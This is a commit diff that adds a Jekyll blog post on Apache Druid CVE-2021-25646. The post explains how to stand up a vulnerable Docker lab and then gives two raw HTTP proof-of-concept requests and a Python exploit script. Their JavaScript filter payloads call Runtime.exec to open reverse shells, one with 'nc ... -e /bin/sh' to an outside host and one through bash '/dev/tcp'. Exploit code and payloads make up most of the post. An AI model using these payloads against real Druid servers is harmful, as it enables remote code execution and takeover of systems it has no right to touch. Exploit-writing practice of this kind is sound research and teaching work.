

Before and after one commit to redpigsixsixsix/redpigsixsixsix.github.io, a Jekyll site: the page built from _posts/2021-02-04-Druid.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-02-04-Druid.md

````diff
--- a/_posts/2021-02-04-Druid.md
+++ b/_posts/2021-02-04-Druid.md
@@ -2,3 +2,132 @@
 title:  "Druid"
 layout: post
 ---
+
+Since It is so boring in the north, I decided to write a post everyday.
+Ranging from exploit writing to vulnerability analysis.
+
+Lets just start from Apache Druid CVE-2021-25646.
+
+This vuln affects all Apache version < 0.20.1
+
+# Install
+Download the source code from [this website](https://github.com/apache/druid/releases/tag/druid-0.19.0).
+
+Unzip it and you will find a docker folder in `druid-druid-0.19.0-rc1\distribution\docker`
+, cd into this directory and run `docker-compose up -d`
+
+Now you got a Apache Druid on http://127.0.0.1:8888
+
+# Exp
+There are two poc on the website
+
+## Poc1
+```
+POST /druid/indexer/v1/sampler HTTP/1.1
+Host: 192.168.123.10:8888
+Accept: application/json, text/plain, */*
+DNT: 1
+User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
+Referer: http://192.168.123.10:8888/unified-console.html
+Accept-Encoding: gzip, deflate
+Accept-Language: zh-CN,zh;q=0.9
+Content-Type: application/json
+Connection: close
+Content-Length: 1007
+
+{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2020-12-12T12:10:21.040Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('nc 192.168.123.10 5555 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
+```
+
+From the poc1 we can make a simple python script.
+
+```python
+import requests
+import sys
+import json
+
+url = sys.argv[1]
+
+
+headers = {
+        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
+        "Accept": "application/json, text/plain, */*",
+        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
+        "Content-Type": "application/json"
+    }
+payload = {
+    "type":"index",
+    "spec":{
+        "ioConfig":{
+            "type":"index",
+            "inputSource":{
+                "type":"inline",
+                "data":"{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"
+            },
+            "inputFormat":{
+                "type":"json",
+                "keepNullColumns":True
+            }
+        },
+        "dataSchema":{
+            "dataSource":"sample",
+            "timestampSpec":{
+                "column":"timestamp",
+                "format":"iso"
+            },
+            "dimensionsSpec":{
+
+            },
+            "transformSpec":{
+                "transforms":[],
+                "filter":{
+                    "type":"javascript",
+                    "dimension":"added",
+                    "function":"function(value) {java.lang.Runtime.getRuntime().exec('nc 172.20.0.1 9999')}",
+                    "":{
+                        "enabled":True
+                    }
+                }
+            }
+        },
+        "type":"index",
+        "tuningConfig":{
+            "type":"index"
+        }
+    },
+    "samplerConfig":{
+        "numRows":500,
+        "timeoutMs":15000
+    }
+}
+
+
+print(url + "/druid/indexer/v1/sampler")
+r = requests.post(url + "/druid/indexer/v1/sampler", data = json.dumps(payload), headers=headers)
+print(r.content)
+```
+
+
+## Poc2
+
+```
+POST /druid/indexer/v1/sampler?for=example-manifest HTTP/1.1
+Host: 0.0.0.0:8888
+Content-Length: 1005
+Accept: application/json, text/plain, */*
+User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
+DNT: 1
+Content-Type: application/json;charset=UTF-8
+Accept-Encoding: gzip, deflate
+Accept-Language: zh-CN,zh;q=0.9
+Connection: close
+
+{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["https://druid.apache.org/data/example-manifests.tsv"]},"inputFormat":{"type":"tsv","findColumnsFromHeader":true}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"timestamp","missingValue":"2010-01-01T00:00:00Z"},"dimensionsSpec":{},"transformSpec":{"transforms":[],"filter":{"type": "javascript",
+                                        "function": "function(value){return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/0.0.0.0/5555 0>&1')}",
+                                        "dimension": "added",
+                                        "": {
+                                                "enabled": "true"
+                                        }
+                                }
+                        }
+  },"type":"index","tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":50,"timeoutMs":10000}}
+```
````
